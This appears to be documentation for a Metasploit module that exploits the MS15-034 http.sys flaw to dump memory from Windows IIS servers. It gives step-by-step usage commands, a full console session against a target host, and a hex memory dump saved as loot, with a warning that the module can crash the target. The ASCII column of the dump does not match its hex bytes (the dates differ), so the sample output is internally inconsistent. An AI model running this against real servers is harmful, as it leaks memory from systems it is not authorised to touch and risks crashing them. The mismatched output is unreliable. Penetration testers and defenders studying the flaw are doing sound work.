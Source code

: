 ## Description

This module dumps memory contents using a crafted Range header and affects only Windows 8.1, Server 2012, and Server 2012R2. 

**Note:** If the target is running in VMware Workstation, this module has a high likelihood of resulting in BSOD; however, VMware ESX and non-virtualized hosts seem stable. Using a larger target file should result in more memory being dumped, and SSL seems to produce more data as well.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/ms15_034_http_sys_memory_dump```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

```
msf > use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
msf auxiliary(ms15_034_http_sys_memory_dump) > set RHOSTS 10.1.1.125
RHOSTS => 10.1.1.125
msf auxiliary(ms15_034_http_sys_memory_dump) > set RPORT 80
RPORT => 80
msf auxiliary(ms15_034_http_sys_memory_dump) > exploit

[+] Target is vulnerable!
[+] Content length is 10240 bytes
[+] Stand by...
[+] Memory contents:
[*] 4854 5450 2f31 2e31 2032 3030 204f 4b0d    HTTP/1.1 200 OK.
[*] 0a43 6f6e 7465 6e74 2d54 7970 653a 2074    .Content-Type: t
[*] 6578 742f 6874 6d6c 0d0a 4c61 7374 2d4d    ext/html..Last-M
[*] 6f64 6966 6965 643a 204d 6f6e 2c20 3232    odified: Mon, 20
[*] 204a 756e 2032 3031 3520 3134 3a32 313a     Mar 2017 21:27:
[*] 3535 2047 4d54 0d0a 4163 6365 7074 2d52    55 GMT..Accept-R
[*] 616e 6765 733a 2062 7974 6573 0d0a 4554    anges: bytes..ET
[*] 6167 3a20 2261 3563 6663 3863 6166 3661    ag: "a5cfc8caf6a
[*] 6364 3031 3a30 220d 0a53 6572 7665 723a    cd01:0"..Server:
[*] 204d 6963 726f 736f 6674 2d49 4953 2f38     Microsoft-IIS/8
[*] 2e35 0d0a 582d 506f 7765 7265 642d 4279    .5..X-Powered-By
[*] 3a20 4153 502e 4e45 540d 0a00 0000 0000    : ASP.NET.......
[*] 0000 0202 4672 6167 0000 0000 0000 0000    ....Frag........
[*] c028 0000 0000 0000 0000 0000 0000 0000    .(..............
[*] 0200 0a00 4672 6565 0000 0000 0000 0000    ....Free........
[*] d01e f6c5 02f8 ffff 40a2 6502 00e0 ffff    ........@.e.....
[*] 0a00 0d02 4d64 6c20 0000 0000 0000 0000    ....Mdl ........
[*] 1000 6702 00e0 ffff 3800 0c00 0000 0000    ..g.....8.......
[*] 0000 0000 0000 0000 ba9a e501 00e0 ffff    ................
[*] 0090 e501 00e0 ffff 5c00 0000 ba0a 0000    ........\.......
[*] 59a8 1300 0000 0000 0000 0000 0000 0000    Y...............
[*] 0000 0000 0000 0000 0000 0000 0000 e0dc    ................
[*] 0d00 0d02 4d64 6c20 0000 0000 0000 0000    ....Mdl ........
[*] 9079 2602 00e0 ffff 3800 1c00 0000 0000    .y&.....8.......
...
...
...
[*] 6079 0702 00e0 ffff 0000 0000 0000 0000    `y..............
[*] 0e00 1902 5669 4d6d 0000 0000 0000 0000    ....ViMm........
[*] Suppressed 346 uninteresting lines
[*] Memory dump saved to /home/rw/.msf4/loot/20150622073911_default_10.1.1.125_iis.ms15034_145400.bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ms15_034_http_sys_memory_dump) > 
```
